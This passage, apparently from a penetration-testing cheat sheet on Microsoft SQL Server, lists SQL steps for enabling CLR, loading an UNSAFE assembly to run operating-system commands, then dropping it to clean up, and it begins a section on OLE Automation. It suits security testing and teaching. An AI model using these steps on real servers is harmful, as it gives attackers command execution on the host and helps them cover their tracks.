     ```sql
    sp_configure 'show advanced options',1; 
    RECONFIGURE
    GO
    ```

2. Enable CLR on the server

    ```sql
    sp_configure 'clr enabled',1
    RECONFIGURE
    GO
    ```

3. Trust the assembly by adding its SHA512 hash

    ```sql
    EXEC sys.sp_add_trusted_assembly 0x[SHA512], N'assembly';
    ```

4. Import the assembly

    ```sql
    CREATE ASSEMBLY my_assembly
    FROM 'c:\temp\cmd_exec.dll'
    WITH PERMISSION_SET = UNSAFE;
    ```

5. Link the assembly to a stored procedure

    ```sql
    CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
    GO
    ```

6. Execute and clean

 ```sql
 cmd_exec "whoami"
 DROP PROCEDURE cmd_exec
 DROP ASSEMBLY my_assembly
 ```

**CREATE ASSEMBLY** will also accept an hexadecimal string representation of a CLR DLL

```sql
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE 
GO 
```

## OLE Automation

- :warning: Disabled by default
- The execution takes place with privileges of the **service account**.
